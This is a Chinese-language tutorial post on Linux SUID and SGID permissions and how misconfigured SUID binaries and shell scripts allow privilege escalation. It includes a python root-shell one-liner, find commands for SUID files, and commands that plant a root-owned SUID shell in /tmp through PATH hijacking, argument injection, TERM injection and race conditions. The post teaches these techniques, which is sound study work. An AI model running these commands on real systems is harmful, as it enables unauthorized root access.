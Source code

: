 ```yaml
---
title: Linux SUID & SGID
date: 2021-07-21 17:32:07
tags:
- 提权
- linux
categories:
- 渗透
- 知识点
---
```


# 基础知识

SUID 就是 Set User id， SGID 就是 Set Group id


## SUID

```bash
nathan@cap:~# ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd
```

可以看到`s`这个标签在原本的`x`标签上，特点如下：

1. SUID权限仅对可执行文件有效
2. 如果执行者对这个文件有执行权限，那么将以文件的所有者权限执行
3. 本权限仅在运行的过程中有效

那么现在再看下passwd的执行过程。因为nathan拥有可执行权限，而passwd在所有者的权限是`wrs`，所以当nathan用户运行的时候是以root的权限执行的，进行修改了`/etc/shadow`。

修改成SUID的命令为
```bash
chmod 4755 /usr/bin/cat
chmod u+s /usr/bin/cat
```

## SGID

对于可执行文件特点与SUID一样，只不过是已组的权限运行的。

对于文件夹来说，如果这个文件夹的所有组被标记了`s`，特点如下：

1. 对这个文件夹拥有`r`和`x`的用户，可以进入文件夹
2. 进入文件夹后，用户的操作为文件夹用户组的操作权限
3. 如果用户拥有`w`的权限，那么用户创建文件的用户组就是这个文件夹组的用户组

```bash
chmod 2755 file_dir
chmod g+s file_dir
```

## rwS

有的文件是`S`为标记，说明没有执行权限。因为与`x`重合了所有做了区分

# 利用

suid 的利用方式常常是因为配置的可执行文件能够得到`shell`或者可以访问敏感信息。

例如，如果`cat`有了suid的权限，那么就可以访问`cat /etc/shadow`。

或者`python`有了suid，那么就可以以root权限执行`/bin/bash`从而得到root的shell

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## 查找方法

```bash
find / -perm -4000 2>/dev/null  # 查看所有suid的二进制文件
find / -perm -2000 2>/dev/null  # 查看所有sgid的二进制文件和文件夹
```

# 7种利用方法

方法参考了[这篇文章](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

## 用的是csh?

```bash
% ls change-pass
-rwsr-x--- 1 root helpdesk
 37 Feb 26 16:35 change-pass
% cat change-pass
#!/bin/csh -b
set user = $1
passwd $user
```

```bash
% env TERM='`cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh`' change-pass
```

## 引用的文件没有使用绝对路径？

```sh
% cat change-pass
#!/bin/ksh
user=$1
passwd $user
```

```bash
% export PATH='/tmp'
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd
% ./change-pass
```

## 脚本的适用范围是否过大？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
/usr/bin/passwd $user
```

可以修改root的密码

## 使用了临时文件？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0 ] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

看到上面使用了临时文件，那么就意味着可以打时间差，通过疯狂循，用空覆盖掉写入的内容。
那么就跳过了检查是否为空，就可以修改root密码了。

## 参数是否过滤，能否用分号做更多的事

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && echo "You can't change root's password!" && exit
/usr/bin/passwd $user
```

可以看到值判断是否有`$user`和`$user`是否为root。

```bash
change-pass "user;cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh"
```

## 是否设置了IFS

**IFS(Internal Field Separator)**, 内部域分割符，set环境变量。

案例中给出了使用方法

```base
export IFS='/'
```

这样`/usr/bin/passwd` 就变成了 `usr bin passwd`，然后替换`usr`的执行就可以了，但是没有实验成功。

## 脚本本身的风险

脚本要运行会有两个步骤：
1. 启动一个shell
2. 这个shell读取脚本的内容然后执行

那么就会有一个时间差

```bash
cd /tmp
ln -s change-pass rootme
```

```bash
$ ./rootme &
$ rm rootme && \
 echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
 >> rootme
```

这个会有很大的几率读取不到完整的内容而失败，但是可以用自动化的方式实现。



